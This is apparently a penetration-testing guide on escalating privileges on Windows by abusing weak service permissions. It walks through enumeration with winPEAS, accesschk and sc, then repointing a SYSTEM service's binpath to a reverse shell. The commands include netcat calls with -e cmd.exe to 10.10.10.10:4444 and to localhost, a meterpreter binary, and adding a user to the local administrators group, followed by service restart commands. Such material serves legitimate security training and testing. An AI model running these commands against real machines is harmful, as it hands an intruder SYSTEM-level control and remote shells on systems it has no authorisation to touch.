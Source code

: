 Each service has an ACL which defines certain service-specific  
permissions.  
Some permissions are innocuous (e.g. SERVICE_QUERY_CONFIG,  
SERVICE_QUERY_STATUS).  
Some may be useful (e.g. SERVICE_STOP, SERVICE_START).  
Some are dangerous (e.g. SERVICE_CHANGE_CONFIG,  
SERVICE_ALL_ACCESS)

If our user has permission to change the configuration of a  
service which runs with SYSTEM privileges, we can change  
the executable the service uses to one of our own.  
Potential Rabbit Hole: If you can change a service  
configuration but cannot stop/start the service, you may not  
be able to escalate privileges!

1.Run winPEAS to check for service misconfigurations:  
`.\winPEASany.exe quiet servicesinfo`

> 2. Note that we can modify the “daclsvc” service.
>     
>     > > YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles
>     

3.We can confirm this with accesschk.exe:  
`.\accesschk.exe /accepteula -uwcqv user daclsvc`

4.Check the current configuration of the service:  
`sc qc daclsvc`

5.Check the current status of the service:  
`sc query daclsvc`

In the scenario where the "Authenticated users" group possesses **SERVICE_ALL_ACCESS** on a service, modification of the service's executable binary is possible. To modify and execute **sc**:

6.Reconfigure the service to use our reverse shell executable:  
`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`  
or:

```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

### Restart service

```bash
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```

Privileges can be escalated through various permissions:

- **SERVICE_CHANGE_CONFIG**: Allows reconfiguration of the service binary.
- **WRITE_DAC**: Enables permission reconfiguration, leading to the ability to change service configurations.
- **WRITE_OWNER**: Permits ownership acquisition and permission reconfiguration.
- **GENERIC_WRITE**: Inherits the ability to change service configurations.
- **GENERIC_ALL**: Also inherits the ability to change service configurations.

For the detection and exploitation of this vulnerability, the _exploit/windows/local/service_permissions_ can be utilized.